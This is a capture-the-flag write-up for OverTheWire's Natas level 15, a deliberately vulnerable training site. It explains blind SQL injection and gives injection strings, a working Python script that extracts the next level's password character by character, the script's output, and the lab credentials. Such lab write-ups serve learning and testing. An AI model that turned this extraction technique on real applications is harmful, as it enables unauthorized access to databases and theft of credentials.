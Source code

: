 # [Level 13 to 14](https://overthewire.org/wargames/natas/natas15.html) - Blind SQL injection

- Login
```
URL: http://natas15.natas.labs.overthewire.org
Username: natas15
Password: SdqIqBsFcz3yotlNYErZSZwblkm0lrvx
```
- Exercise:
  - ![image](https://github.com/user-attachments/assets/66c6e3ef-7bfe-4389-becb-f9b7b12795e1)
  - ![image](https://github.com/user-attachments/assets/c6d3b98e-6be5-4d95-8d00-fdca542cbc96) 
- Background:
 - Blind SQL injection:
  - Type of SQL Injection attack that asks the database true or false questions and determines the answer based on the applications response
  - Often used when the web application is configured to show generic error messages, but has not mitigated the code that is vulnerable to SQL injection.
- Solution:
 - Source code explanation:
   - If `username` is included in the request, connect to the database, and `SELECT` all from table users where the username = user input
   - If the debug key exists on the request, show the query to the user
   - If the number of rows is greater than 0, say that the user exists
   - No place where the selected rows will be displayed to the user, only "This user exists." or "This user doesn’t exist."
 - Username `natas16` should be in the database:
   - Query (Checks to see if the substring of username starting at the first character and extending one character in length is equal to n or select all from users where the username is an empty string, or where the first character equals n):
    ```sql
    " OR substring(username,1,1) = 'n' #
    "SELECT * from users where username="" OR substring(username,1,1) = 'n' #
    ```
    - Result: This user exists.
  - Other queries:
  ```sql
  " OR substring(username,1,7) = 'natas16' # -> Result: This user exists.
  ```
  - python Script:
  ```python
  import requests
  import string
  from requests.auth import HTTPBasicAuth
  
  basicAuth=HTTPBasicAuth('natas15', 'SdqIqBsFcz3yotlNYErZSZwblkm0lrvx')
  headers = {'Content-Type': 'application/x-www-form-urlencoded'}
  
  u="http://natas15.natas.labs.overthewire.org/index.php?debug"
  
  password="" # start with blank password
  count = 1   # substr() length argument starts at 1
  PASSWORD_LENGTH = 32  # previous passwords were 32 chars long
  VALID_CHARS = string.digits + string.ascii_letters
  
  while count <= PASSWORD_LENGTH + 1:
      for c in VALID_CHARS:
          payload="username=natas16" + \
                  "\" AND " + \
                  "BINARY substring(password,1," + str(count) + ")" + \
                  " = '" + password + c + "'" + \
                  " -- "
  
          # print(payload)
  
          response = requests.post(u, data=payload, headers=headers, auth=basicAuth, verify=False)
  
          if 'This user exists.' in response.text:
              print("Found one more char : %s" % (password+c))
              password += c
              count = count + 1
  
  print("Done!")
  ```
  - Output:
  ```bash
  Found one more char : h
  Found one more char : hP
  Found one more char : hPk
  Found one more char : hPkj
  Found one more char : hPkjK
  Found one more char : hPkjKY
  Found one more char : hPkjKYv
  Found one more char : hPkjKYvi
  Found one more char : hPkjKYviL
  Found one more char : hPkjKYviLQ
  Found one more char : hPkjKYviLQc
  Found one more char : hPkjKYviLQct
  Found one more char : hPkjKYviLQctE
  Found one more char : hPkjKYviLQctEW
  Found one more char : hPkjKYviLQctEW3
  Found one more char : hPkjKYviLQctEW33
  Found one more char : hPkjKYviLQctEW33Q
  Found one more char : hPkjKYviLQctEW33Qm
  Found one more char : hPkjKYviLQctEW33Qmu
  Found one more char : hPkjKYviLQctEW33QmuX
  Found one more char : hPkjKYviLQctEW33QmuXL
  Found one more char : hPkjKYviLQctEW33QmuXL6
  Found one more char : hPkjKYviLQctEW33QmuXL6e
  Found one more char : hPkjKYviLQctEW33QmuXL6eD
  Found one more char : hPkjKYviLQctEW33QmuXL6eDV
  Found one more char : hPkjKYviLQctEW33QmuXL6eDVf
  Found one more char : hPkjKYviLQctEW33QmuXL6eDVfM
  Found one more char : hPkjKYviLQctEW33QmuXL6eDVfMW
  Found one more char : hPkjKYviLQctEW33QmuXL6eDVfMW4
  Found one more char : hPkjKYviLQctEW33QmuXL6eDVfMW4s
  Found one more char : hPkjKYviLQctEW33QmuXL6eDVfMW4sG
  Found one more char : hPkjKYviLQctEW33QmuXL6eDVfMW4sGo
  ```
- Password: `hPkjKYviLQctEW33QmuXL6eDVfMW4sGo`

